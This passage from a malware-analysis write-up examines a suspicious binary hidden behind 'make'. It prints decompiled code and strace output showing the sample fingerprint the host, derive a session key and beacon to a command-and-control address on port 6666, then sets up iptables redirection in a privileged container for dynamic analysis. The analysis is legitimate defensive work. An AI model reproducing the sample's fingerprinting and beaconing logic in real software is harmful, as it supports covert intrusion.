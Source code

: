 ```c
  username = getlogin();
  if (username == (char *)0x0) {
    username = decryptString(5);
  }
  version_00 = decryptString(0x11);
  uname((utsname *)&ubuf);
  gettimeofday((timeval *)&tv,(__timezone_ptr_t)0x0);
  fingerprint(&fp,username,version_00,ubuf.sysname,tv.tv_sec);
                    /* try { // try from 0015a6ea to 0015a6ee has its CatchHandler @ 0015ac64 */
  fpToK(&session_key,username,version_00,tv.tv_sec);
                    /* try { // try from 0015a6f4 to 0015a746 has its CatchHandler @ 0015ac50 */
  cikyvjbgzkirt(0x11);
  cikyvjbgzkirt(5);
  sock_00 = higwbxbrkvcvt(ip,port);
  if (-1 < sock_00) {
```

Here we can see that some interesting details seem to be getting gathered in prep for some potential socket activity.  At the end, we see a call to `higwbxbrkvcvt`, which based on the arguments looks like it may be initializing a socket connection, and then checking to ensure the connection was successful before continuing.  Proceeding with our dynamic execution in gdb, it appears as though the binary attempts to connect to `198.51.100.233` port `6666`.  Stepping over this function call hangs for several seconds, and then returns `-1`, indicating failure.  Let's double check ourselves with `strace`:

```bash
# apk add strace
# strace make
...
open("/tmp/.gglock", O_WRONLY|O_CREAT|O_EXCL|O_LARGEFILE, 0644) = 3
...
...
socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 5
connect(5, {sa_family=AF_INET, sin_port=htons(6666), sin_addr=inet_addr("198.51.100.233")}, 16) = -1 ECONNREFUSED (Connection refused)
close(5)        
...
```

`strace` produces a ton of interesting syscall information for us, to include the above calls to open, and our failed socket connection as we suspected.  We will need a way to continue past this point in our dynamic analysis.  We have a couple options at our disposal:  We could modify the return value of the call to `higwbxbrkvcvt` to trick the program into thinking it had a successful connection.  We could also redirect connection attempts to the target ip to localhost where we have a waiting netcat listener.  Let's go with the latter.

To do so, we'll leverage `iptables`, which we'll need to ensure our docker configuration supports.  For `iptables` to work, we need our container to run in privileged mode and have access to the `NET_ADMIN` capability.  Exit out of the container and re-run it with the following:

```bash
$ docker run --privileged --cap-add=NET_ADMIN -it panic-nightly-test sh
```
